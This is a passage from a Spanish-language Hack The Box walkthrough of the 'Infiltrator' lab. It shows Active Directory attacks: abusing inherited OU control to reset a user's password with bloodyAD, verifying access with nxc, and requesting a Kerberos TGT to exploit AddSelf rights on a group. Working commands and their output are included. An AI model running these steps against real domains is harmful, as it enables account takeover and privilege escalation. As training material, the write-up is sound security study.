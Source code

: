 Volviendo a revisar en el `BloodHound`, verificamos que en la OU `MARKETING DIGITAL` se encontraba el usuario `e.rodriguez@infiltrator.htb`.

Por lo tanto, dado que nos hemos otorgado el control total sobre la OU y los objetos secundarios, por ende, deberíamos de tener control total con el usuario `d.anderson@infiltrator.htb` sobre el usuario `e.rodriguez@infiltrator.htb`.

<figure><img src="../../.gitbook/assets/3773_vmware_Q1dBZ5tiUG.png" alt=""><figcaption></figcaption></figure>

A través de `bloodyAD` realizamos el cambio de contraseña del usuario mencionado. Posteriormente a través de `nxc`,verificamos que el cambio se realizó correctamente.

```bash
❯ bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb -u 'd.anderson' -k set password 'e.rodriguez' 'Password01!'
[+] Password changed successfully!

❯ nxc smb dc01.infiltrator.htb -u 'e.rodriguez' -p 'Password01!' -k
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\e.rodriguez:Password01!
```

### Abusing AddSelf privileges to add myself on a group

Revisando nuevamente en la ruta que encontramos en `BloodHound`, verificamos que el usuario que disponemos actualmente tiene permisos de `AddSelf` sobre el grupo `CHIEFS MARKETING`.

Por lo tanto, el usuario dispone de permisos para añadirse a sí mismo al grupo mencionado.

<figure><img src="../../.gitbook/assets/imagen (47).png" alt=""><figcaption></figcaption></figure>

Lo primero de todo será solicitar un TGT (Ticket Granting Ticket) del usuario `e.rodriguez@infiltrator.htb`. Almacenaremos el ticket TGT en la variable `KRB5CCNAME` y validaremos que esté correctamente configurada.

```bash
❯ impacket-getTGT infiltrator.htb/e.rodriguez:'Password01!'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in e.rodriguez.ccache

❯ export KRB5CCNAME=$(pwd)/e.rodriguez.ccache

❯ klist -e
Ticket cache: FILE:/home/kali/Desktop/HackTheBox/Windows/Infiltrator/Infiltrator2/content/e.rodriguez.ccache
Default principal: e.rodriguez@INFILTRATOR.HTB

Valid starting     Expires            Service principal
17/01/25 21:30:25  18/01/25 07:30:25  krbtgt/INFILTRATOR.HTB@INFILTRATOR.HTB
	renew until 18/01/25 21:30:33, Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96
```